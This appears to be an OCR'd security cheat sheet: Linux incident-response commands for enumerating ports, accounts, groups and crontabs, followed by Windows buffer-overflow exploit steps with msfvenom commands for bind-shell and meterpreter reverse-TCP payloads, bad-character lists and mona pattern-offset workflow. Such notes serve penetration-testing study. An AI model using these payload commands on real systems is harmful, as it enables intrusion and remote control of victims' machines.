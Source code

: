 	# get information about procceses with open ports
	lsof -i
	# look for weird things in arp
	arp -a
	# look at all accounts including AD
	getent passwd
	# look at all groups and membership including AD
	getent group
	# list crontabs for all users including AD
	for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done
	# generate random passwords
	cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4
	# find all immutable files, there should not be any
	find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’
	# fix immutable files
	chattr -i file


	Win Buffer Overflow Exploit Commands
	msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c
	COMMONLY USED BAD CHARACTERS:
	\x00\x0a\x0d\x20                              For http request
	\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)
	# Useful Commands:
	pattern create
	pattern offset (EIP Address)
	pattern offset (ESP Address)
	add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )

	!pvefindaddr pattern_create 5000
	!pvefindaddr suggest
	!pvefindaddr modules
	!pvefindaddr nosafeseh

	!mona config -set workingfolder C:\Mona\%p
	!mona config -get workingfolder
	!mona mod
	!mona bytearray -b "\x00\x0a"
	!mona pc 5000
	!mona po EIP
	!mona suggest
